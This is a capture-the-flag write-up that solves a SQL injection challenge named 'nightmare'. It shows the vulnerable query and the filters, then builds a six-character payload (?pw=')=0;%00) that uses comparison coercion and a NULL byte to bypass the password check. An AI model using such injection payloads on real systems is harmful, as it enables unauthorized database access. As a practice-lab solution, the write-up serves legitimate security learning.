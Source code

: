 ```yaml
---
custom_edit_url: null
sidebar_position: 18
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/b37663bf-7e53-4d53-b15b-b9e65b46df36)

We are provided with the SQL query:

```sql
SELECT id FROM prob_nightmare WHERE pw=('{$_GET[pw]}') AND id!='admin'
```

### Filter
The code filters out the following:

- `pw` parameter value greater than 6 characters
- `#`
- `-`

In order to make the given SQL query result in `TRUE`, we have to set the password to an empty string.

In order to do so within 6 characters, we can provide the following URI parameter:

```
?pw=')=0
```

The resultant query becomes:

```sql
SELECT id FROM prob_nightmare WHERE pw=('')=0') AND id!='admin'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/c75599ca-621e-48f4-8fd0-af5f0c3f162a)

Now, in order to remove the rest of query we have use a NULL byte (`%00`). This terminates the query.
We also have to add a semi-colon (`;`) before terminating the query.

If we provide the following URI parameter:

```
?pw=')=0;%00
```

The resultant query becomes:

```sql
SELECT id FROM prob_nightmare WHERE pw=('')=0;

## Terminated part:
') AND id!='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/0cdb82c7-6781-4cb7-8ebd-fd513f70f309)
